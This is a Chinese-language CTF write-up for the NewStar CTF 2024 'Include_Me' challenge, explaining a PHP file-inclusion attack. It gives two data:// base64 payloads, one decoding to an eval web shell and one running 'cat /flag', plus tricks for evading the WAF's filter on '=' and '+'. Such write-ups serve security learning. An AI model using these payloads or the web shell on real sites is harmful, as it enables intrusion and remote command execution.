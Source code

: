 ```yaml
---
titleTemplate: ':title | WriteUp - NewStar CTF 2024'
---
```

# Include_Me

打开题目5s后会自动跳转搜索php伪协议

![PHP代码部分](/assets/images/wp/2024/week3/include-me_1.png)
![跳转结果](/assets/images/wp/2024/week3/include-me_2.png)

要防止跳转，使用GET传入iknow的值即可 eg:（?iknow=1）

进入正题

![源码](/assets/images/wp/2024/week3/include-me_3.png)

我们使用GET传入phpinfo的值后可验证远程文件包含漏洞的必要条件满足

![phpinfo](/assets/images/wp/2024/week3/include-me_4.png)

接着就是绕waf，这里使用的是data协议加base64加密的组合拳

payload1

```plaintext
iknow=1&me=data://text/plain;base64,PD9waHAgQGV2YWwoJF9QT1NUW2NtYXNdKT8%2b
<?php @eval($_POST[cmas])?>
（POST方式传入cmas来命令执行即可）
```

```plaintext
payload2
iknow=1&me=data://text/plain;base64,PD9waHAgc3lzdGVtKCJjYXQgL2ZsYWciKTs/PiAg
<?php system("cat /flag");?>
```

这里对我们需要注意的是

- base64加密后的字符串不能带有=，因为会被waf，这时我们可以通过在明文payload的最后加上空格再进行加密，最后得到无=号的密文payload即可
- 若密文最后是+号的话，我们在GET传参必须将其编码为%2b，不然+会被视为空格
